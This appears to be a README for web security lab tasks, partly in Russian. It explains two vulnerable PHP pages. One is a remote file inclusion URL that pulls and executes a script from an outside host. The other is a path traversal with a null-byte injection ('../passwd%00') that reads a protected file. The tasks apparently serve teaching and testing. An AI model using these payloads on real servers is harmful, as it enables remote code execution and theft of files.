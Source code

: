 These are test tasks on web security. Description and instructions for reproducing the attack follows.
All the tasks are tested and worked on OpenServer 4.8.7, though the configuration of the server doesn't matter.
The server name is assumed to be 'localhost'.

Task 1
Участвующие файлы:

task1.php, располагается в корневой папке атакуемого сервера.

На сервере должны быть включены register_globals, allow_url_fopen и allow_url_include.
 
Для взлома данная страница открывается через url

http://localhost/task1.php?file_to_open=http://biomechanics.ru/listof.php

В данных настройках это приведет к подключению удаленного файла listof.php в скрипт task1.php и его исполнению.

Для атаки нужно знать имя переменной file_to_open


Task 2
Участвующие файлы:

task2.php, располагается в корневой папке атакуемого сервера.

passwd, располагается в папке на один уровень выше (предположительно недоступной для просмотра веб-пользователям).


Для взлома используется вставка нулевого байта в нотации C++ в плохо экранированную строку, которая используется в параметре функции require_once. Для этого страница открывается через url

http://localhost/task2.php?file=../passwd%00
 
При этом файл passwd выдается на страницу. В результате получается следующий вывод:

"admin	pass task2 worked"
